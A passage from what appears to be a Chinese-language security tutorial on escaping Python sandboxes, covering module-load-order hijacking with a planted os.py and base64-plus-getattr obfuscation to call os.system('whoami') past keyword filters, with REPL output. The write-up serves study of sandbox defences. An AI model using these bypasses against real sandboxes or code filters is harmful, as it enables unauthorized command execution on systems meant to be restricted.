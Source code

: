 所以，想要应对这种情况，除了从`__builtin__`中禁用execfile，当然还可以直接从文件入手，**删除相关py文件（破坏导入机制的第三种方法）**，这种方法很危险，容易破坏整个运行环境。

### 0x4、模块加载顺序竞争

刚刚提到导入模块时的搜索优先顺序是 “当前路径==>sys.path”。如果攻击这可以复制、移动、保存文件，可能导致一种“模块加载顺序竞争”的问题：比如攻击者可以复制os.py或者写一个含有恶意代码的os.py到运行环境的当前路径下，这样导入时导入的将是当前路径下的os.py，而不是系统库里默认的os.py了**（破坏导入机制的第四种方法）**。对于web环境中存在文件上传漏洞的情况可能比较适用。



======================================分割线=================================

前面四个小节讲的都是“破坏或者利用导入机制”，后面的内容关于"过滤危险库和函数"。

======================================分割线=================================

### 0x4、导入时的“代码混淆”

一种显而易见的防御机制就是搜索代码中的关键词，然后进行过滤，那么如何绕过呢？答案是编码（确切的说应该是字符变换，编码是其中的一种！）

```python
>>> import base64
>>> import importlib
>>>
>>> print base64.b64decode('b3M=')
os
>>> y = __import__(base64.b64decode('b3M='))
>>> y.system('whoami')
desktop-hpsg7tl\bit4
0
>>>
>>> z = importlib.import_module( base64.b64decode('b3M='))
>>> z.system('whoami')
desktop-hpsg7tl\bit4
0
>>>
#如上，以上可以不出现'os'关键词而完成os.system的调用。
```



### 0x5、调用时的“代码混淆”

如果过滤了关键字system呢？

```python
>>> import base64
>>> import importlib
>>>
>>> y = __import__(base64.b64decode('b3M='))
>>> getattr(y,base64.b64decode('c3lzdGVt'))('whoami')
desktop-hpsg7tl\bit4
0
>>>
>>>
>>> z = importlib.import_module( base64.b64decode('b3M='))
>>> getattr(z,base64.b64decode('c3lzdGVt'))('whoami')
desktop-hpsg7tl\bit4
0
>>>
#如上，对‘system’也进行了编码，通过getattr来完成函数的调用。
```
